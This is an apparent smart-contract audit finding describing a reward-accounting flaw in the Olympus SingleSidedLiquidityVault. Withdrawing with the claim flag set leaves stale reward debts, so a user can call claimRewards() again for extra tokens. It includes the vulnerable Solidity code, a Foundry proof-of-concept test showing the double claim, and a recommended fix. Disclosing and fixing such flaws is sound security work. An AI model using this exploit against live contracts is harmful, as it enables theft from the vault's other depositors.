 CRYP70

high

# Users can steal additional rewards after withdrawing with the `claimed_` flag set as `true`

## Summary
The `SingleSidedLiquidityVault` allows for users to deposit and withdraw `wstETH` tokens in order to accumulate rewards over a period of time. Internal rewards are gathered based on a `rewardsPerSecond_` basis while external rewards are determined by the third party external contract. When withdrawing, users will have the option to claim rewards on withdrawal by passing `true` to the `claimed_` boolean flag to the `withdraw()` function making this a gas efficient method to return both `wstETH` tokens and rewarding users their share however, the withdrawal function does not appropriately update the state of rewards when a user attempts to pass the `claimed_` flag. 

## Vulnerability Detail
The function `_withdrawUpdateRewardState()` is called on withdrawal on line `263` and is responsible for updating both internal and external reward state and transferring those earned rewards to the users. The code for this function looks like the following:

```solidity
function _withdrawUpdateRewardState(uint256 lpAmount_, bool claim_) internal {
        uint256 numInternalRewardTokens = internalRewardTokens.length;
        uint256 numExternalRewardTokens = externalRewardTokens.length;

        // Handles accounting logic for internal and external rewards, harvests external rewards
        uint256[] memory accumulatedInternalRewards = _accumulateInternalRewards();
        uint256[] memory accumulatedExternalRewards = _accumulateExternalRewards();

        for (uint256 i; i < numInternalRewardTokens; ) {
            _updateInternalRewardState(i, accumulatedInternalRewards[i]);
            if (claim_) _claimInternalRewards(i);

            // Update reward debts so as to not understate the amount of rewards owed to the user, and push
            // any unclaimed rewards to the user's reward debt so that they can be claimed later
            InternalRewardToken memory rewardToken = internalRewardTokens[i];
            uint256 rewardDebtDiff = lpAmount_ * rewardToken.accumulatedRewardsPerShare;

            if (rewardDebtDiff > userRewardDebts[msg.sender][rewardToken.token]) {
                userRewardDebts[msg.sender][rewardToken.token] = 0;
                cachedUserRewards[msg.sender][rewardToken.token] +=
                    rewardDebtDiff -
                    userRewardDebts[msg.sender][rewardToken.token];
            } else {
                userRewardDebts[msg.sender][rewardToken.token] -= rewardDebtDiff;
            }

            unchecked {
                ++i;
            }
        }

        for (uint256 i; i < numExternalRewardTokens; ) {
            _updateExternalRewardState(i, accumulatedExternalRewards[i]);
            if (claim_) _claimExternalRewards(i);

            // Update reward debts so as to not understate the amount of rewards owed to the user, and push
            // any unclaimed rewards to the user's reward debt so that they can be claimed later
            ExternalRewardToken memory rewardToken = externalRewardTokens[i];
            uint256 rewardDebtDiff = lpAmount_ * rewardToken.accumulatedRewardsPerShare;

            if (rewardDebtDiff > userRewardDebts[msg.sender][rewardToken.token]) {
                userRewardDebts[msg.sender][rewardToken.token] = 0;
                cachedUserRewards[msg.sender][rewardToken.token] +=
                    rewardDebtDiff -
                    userRewardDebts[msg.sender][rewardToken.token];
            } else {
                userRewardDebts[msg.sender][rewardToken.token] -= rewardDebtDiff;
            }

            unchecked {
                ++i;
            }
        }
    }
```

The root of the issue lies on lines `575` and `598` when the contract attempts to update the rewards state because the state is updated before the user attempts to collect their rewards. As a result, when a user attempts to claim rewards, the contract only retains the state before reward tokens were issued. 


## Impact

Should a user attempt to collect rewards from the protocol using the `claimed_` flag set as `true`, an outdated state will create a situation where the contract thinks the user still has outstanding rewards even though the user has already received reward tokens and has burned their LP. This will allow the user to steal reward tokens by calling `claimRewards()` to receive an additional payout of tokens even though they have no LP. The proof of concept below outlines this scenario:

*Proof of concept*
```solidity
    function testClaimAfterWithdraw() public {

        // Setup scenario
        SingleSidedLiquidityVault.InternalRewardToken[] memory internalRewardsTokens = liquidityVault.getInternalRewardTokens();
        SingleSidedLiquidityVault.ExternalRewardToken[] memory externalRewardsTokens = liquidityVault.getExternalRewardTokens();

        ERC20 lidoRewards = ERC20(address(internalRewardsTokens[0].token)); // LIDO DAO Governance Token
        ERC20 externalRewards = ERC20(address(externalRewardsTokens[0].token));

        // Assert Alice's original wsteth balance - Note /1e18 for wsteth assertions for readability
        assertEq(wsteth.balanceOf(address(alice))/1e18, 67);


        // Begin scenario - alice stakes in the vault
        vm.startPrank(address(alice));
        wsteth.approve(address(liquidityVault), 1 ether);
        liquidityVault.deposit(1 ether, 100);
        vm.stopPrank();


        // Assert that Alice's wsteth was successfully transferred to the vault
        assertEq(wsteth.balanceOf(address(alice))/1e18, 66);


        // Move timestamp forward to get some additional rewards
        vm.warp(block.timestamp + (60 * 60 * 12));


        vm.startPrank(address(alice));
        uint256[] memory minout = new uint256[](2);
        minout[0] = 100;
        minout[1] = 100;
        uint256 alicesLp = liquidityVault.lpPositions(address(alice));
        liquidityVault.withdraw(alicesLp, minout, true); // Note: Alice is claiming on withdrawing
        vm.stopPrank();

        // Assert alice's balance was transferred back successfully 
        assertEq(wsteth.balanceOf(address(alice))/1e18, 67);

        // Assert rewards have been claimed successfully - this is okay.
        assertEq(lidoRewards.balanceOf(address(alice))/1e18, 129); // 129.0 ether
        assertEq(externalRewards.balanceOf(address(alice))/1e17, 9); // 0.9 ether

        // Assert alice doesnt have any LP - at this point alice is out of the protocol.
        assertEq(liquidityVault.lpPositions(address(alice)), 0);


        // Timestamp is moved forward again 
        vm.warp(block.timestamp + (60 * 60 * 12));


        vm.startPrank(address(alice));
        // Alice claims again and exploits this issue for extra rewards
        liquidityVault.claimRewards();
        vm.stopPrank();


        // Assert alice has more rewards without LP
        assertEq(lidoRewards.balanceOf(address(alice))/1e18, 259); // 259.0 ether
        assertEq(externalRewards.balanceOf(address(alice))/1e17, 19); // 1.9 ether


    }
```


## Code Snippet
- https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L575-L576
- https://github.com/sherlock-audit/2023-02-olympus/blob/main/src/policies/lending/abstracts/SingleSidedLiquidityVault.sol#L598-L599



## Tool used

Manual Review

## Recommendation
It's recommended that the `_withdrawUpdateRewardState()` function updates the reward state `after` reward tokens have been distributed. This will prevent attackers from claiming rewards again after withdrawing from the protocol. 